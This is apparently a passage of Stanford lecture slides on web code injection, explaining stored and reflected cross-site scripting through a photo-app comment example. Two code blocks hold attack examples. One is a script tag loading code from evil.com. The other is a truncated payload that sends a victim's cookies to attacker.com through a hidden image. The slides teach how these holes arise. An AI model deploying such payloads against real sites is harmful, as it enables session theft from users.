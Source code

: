 # Other Attacks[^1]

# Code Injection Attacks

## Consider adding HTML comments to our Photo App

- Easy change:

Rather than `{model.comment}` do `div.innerHtml = model.comment;`

- What happens if someone inputs a comment with a script tag?

```html
<script src="http://www.evil.com/damage.js" />
```

- Called a Cross Site Scripting Attack (XSS)

Really unfortunate for us. Every user that views that photo/comments gets hurt. (consider following with a CSRF attack)

## Stored Cross Site Scripting Attack

- Attacker stores attacking code in a victim Web server, where it gets accessed by victim clients. Call a **Stored Cross Site Scripting Attack**

- On previous generations of web frameworks was a major attack loophole
  - Lots of stuffing things into innerHTML, bad escape processing

- Less so on JavaScript frameworks
  - Care is taken before stuffing things into the DOM

## Reflected Cross Site Scripting

- Attacker doesn't need to store attack on website, can just reflect it off the website. Call a Reflected Cross Site Scripting Attack

- Consider a website that shows the search term used (like our states view)
  - What happens if we store the search term in an innerHTML and an attacker tricks a user into

searching for: Justin Bieber

```html
<img style="display:none" id="cookieMonster">
<script>
    img = document.getElementById("cookieMonster");
    img.src = "http://attacker.com?cookie=" +
</script>
```

## Reflected Cross Site Scripting Attack

- How to get user to submit that URL?
 

[^1]: [Stanford Computer Science](https://cs.stanford.edu)